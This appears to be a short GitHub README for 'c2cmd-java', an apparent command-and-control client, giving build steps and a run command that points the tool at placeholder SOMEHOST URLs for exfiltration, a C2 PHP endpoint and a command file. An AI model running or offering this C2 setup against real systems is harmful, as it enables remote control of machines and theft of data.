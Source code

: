 # c2cmd-java

```Your Urls have to be added to the Java source code.```

To create the jar and run within its own directory:

```
javac c2cmd.java
jar -cvmf c2cmd.mf c2cmd.jar *
```
To run it (with your url changes compiled above) 
```
java -jar c2cmd.jar
```
or run it like
```
java -jar c2cmd.jar https://SOMEHOST/exfil https://SOMEHOST/exploit/c2/2c.php?get=1 https://SOMEHOST/exploit/c2/c2.txt 2
```
